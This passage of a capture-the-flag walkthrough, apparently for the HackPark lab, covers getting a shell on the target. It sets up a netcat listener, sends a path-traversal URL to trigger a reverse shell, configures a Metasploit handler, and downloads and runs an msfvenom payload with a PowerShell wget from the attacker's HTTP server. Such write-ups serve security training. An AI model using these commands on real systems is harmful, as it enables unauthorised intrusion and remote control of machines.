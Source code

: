 Let's start the netcat listener on port 2222.

```shell
nc -lnvp 2222
```

<img src="{{'/assets/img/images/06.HackPark/14.png' | prepend: site.baseurl }}" height="200">

Now we will navigate to the path as show below to trigger the vulnerability.

```
http://10.10.120.14/?theme=../../App_Data/files
```

<img src="{{'/assets/img/images/06.HackPark/15.png' | prepend: site.baseurl }}" height="200">

We received a shell in the netcat listener!

<img src="{{'/assets/img/images/06.HackPark/16.png' | prepend: site.baseurl }}" height="200">

We will elevate out netcat shell to meterpreter shell. We will start this by generating a payload using msfvenom.

<img src="{{'/assets/img/images/06.HackPark/17.png' | prepend: site.baseurl }}" height="200">

Start metasploit and use exploit multi/handler.

```shell
use multi/handler

set lhost tun0

set lport 3333

exploit
```

<img src="{{'/assets/img/images/06.HackPark/18.png' | prepend: site.baseurl }}" height="300">

Start the python http server using the following command. It serves on port 8000 by default.

```shell
python -m http.server
```

Now, download the payload to the target machine and run it.

```shell
powershell -c wget http://10.6.10.164:8000/shell.exe -outfile shell.exe
```

<img src="{{'/assets/img/images/06.HackPark/19.png' | prepend: site.baseurl }}" height="500">

We now got a reverse shell via metasploit!

<img src="{{'/assets/img/images/06.HackPark/20.png' | prepend: site.baseurl }}" height="500">

# Privilege Escalation
